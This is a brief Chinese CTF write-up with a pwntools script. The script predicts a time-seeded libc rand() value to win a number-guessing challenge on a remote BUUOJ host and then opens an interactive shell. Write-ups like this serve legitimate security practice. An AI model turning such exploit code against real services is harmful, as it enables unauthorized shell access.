 1. 在linux系统上，system执行了错误的函数会异常退出，进入shell
2. 时间戳伪随机数，注意打远程时网要好，如果延时随机数变化

exp：

```
from pwn import *
from ctypes import *

context(log_level='debug',arch='amd64',os='linux')
# io = process('/home/kali/Desktop/pwn')
io = remote('node4.buuoj.cn',27485)

elf = ELF('/home/kali/Desktop/pwn')
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')

io.recvuntil(b'can you guess the number?')

seed = libc.time(0)
libc.srand(seed)
num = libc.rand()
print(num)

io.sendline(str(num))
io.interactive()
```
